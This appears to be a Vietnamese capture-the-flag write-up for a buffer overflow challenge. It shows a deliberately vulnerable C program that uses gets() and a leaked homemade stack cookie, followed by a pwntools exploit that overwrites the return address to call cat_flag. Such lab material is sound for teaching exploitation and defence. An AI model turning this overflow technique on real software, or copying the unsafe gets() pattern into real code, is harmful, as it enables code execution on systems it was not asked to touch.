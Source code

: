 # BOF2

## Source code

```c
int cookie;

void cat_flag()
{
system("cat flag");
}

void vun()
{
int i = cookie;
char buff[16];
gets(&buff);    // lỗi buffer overflow ở đây
printf("%s", buff);
if (i != cookie)
{
printf("DONT SMASH THE STACK PLZ!\n");
exit(0);
}
}

int main ()
{
struct timespec t;
clock_gettime(CLOCK_MONOTONIC_RAW, &t);
srand(t.tv_nsec);
cookie = rand() % 0xff;
printf("%x\n", cookie);
vun();
return 0;
}
```

bài này bị dính lỗi buffer overflow, do array `buff[16]` chỉ có size là 16byte, tuy nhiên hàm `gets` lại đọc input có độ dài tối đa tùy ý. Chỉ dừng lại khi gặp kí tự `\n` hoặc `EOF`. Do đó, ta có thể nhập vào 1 chuỗi có độ dài bất kì lớn hơn 16byte => buffer overflow.

## Solution

Sử dụng thư viện pwntools để tương tác với process. Đọc stdout của process để lấy cookie được in ra. Sau đó, gửi payload để lấy flag

```python
from pwn import *
context.log_level = 'debug'
p = process('./Bufferoverflow-homemade-cookie-v2')
elf = ELF('./Bufferoverflow-homemade-cookie-v2')
canary = int(p.recvline(False),16)
log.info('canary: ' + hex(canary))

payload = b'a' * 16 + p32(canary)
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(elf.sym['cat_flag'])

p.sendline(payload)
```

![Alt text](image.png)